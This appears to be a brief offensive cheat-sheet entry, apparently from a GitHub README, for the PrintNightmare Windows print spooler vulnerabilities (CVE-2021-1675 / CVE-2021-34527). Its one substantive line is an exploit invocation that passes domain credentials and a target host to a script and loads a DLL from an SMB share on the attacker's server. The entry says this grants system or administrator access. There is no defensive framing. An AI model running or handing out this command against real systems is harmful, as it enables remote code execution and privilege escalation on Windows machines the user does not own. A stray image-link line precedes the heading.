# PrintNightmare CVE-2021-1675 / CVE-2021-34527

 - CVE-2021-1675.py DOMAIN/USER:PASSWORD@TARGET "\\SMB_SERVER_IP\SHARE\INJECT.DLL" (Gives system/admin access)
